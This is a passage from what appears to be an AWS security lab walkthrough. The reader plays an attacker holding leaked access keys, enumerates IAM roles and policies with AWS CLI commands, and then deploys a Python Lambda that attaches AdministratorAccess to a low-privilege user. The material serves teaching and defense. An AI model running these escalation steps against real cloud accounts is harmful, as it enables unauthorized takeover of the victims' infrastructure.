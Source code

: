 1. Attach the policy you created to the role.

   ```bash
   aws iam attach-role-policy --role-name LambdaExecutionRole --policy-arn arn:aws:iam::ACCOUNT_NUMBER:policy/LambdaIAMPolicy
   ```

# Execution

You will now pretend to be an "attacker" who has discovered a AWS access/secret pair which they will use to enumerate the environment and escalate privileges.

1. Validate the credentials obtained work.

   ```bash
   aws sts get-caller-identity --profile PROFILE_NAME
   ```

   For a more stealthy option the guidance [here](https://hackingthe.cloud/aws/enumeration/whoami/#sns-publish) can assist. 

1. Investigate the current roles contained within the account.

   ```bash
   aws iam list-roles --profile PROFILE_NAME
   ```

1. The role which looks to be associated with Lambdas is queried. 

   ```bash
   aws iam list-attached-role-policies --role-name LambdaExecutionRole --profile PROFILE_NAME
   ```

1. With the name of the policy obtained the versions are listed.

   ```bash
   aws iam get-policy --policy-arn arn:aws:iam::ACCOUNT_NUMBER:policy/LambdaIAMPolicy --profile PROFILE_NAME
   ```

1. Determining the permissions authorized.

   ```bash
   aws iam get-policy-version --policy-arn arn:aws:iam::ACCOUNT_NUMBER:policy/LambdaIAMPolicy --version-id v1 --profile PROFILE_NAME
   ```

1. Now that we see there is high permissions present, a Lambda function is created which can attach higher permissions to the user.

   Filename: `lambda_function.py`
   
   ```python
   import boto3
   def lambda_handler(event, context):
       client = boto3.client('iam')
       response = client.attach_user_policy(UserName='MinimalIAMPassCreateAdd',PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
       return response
   ```
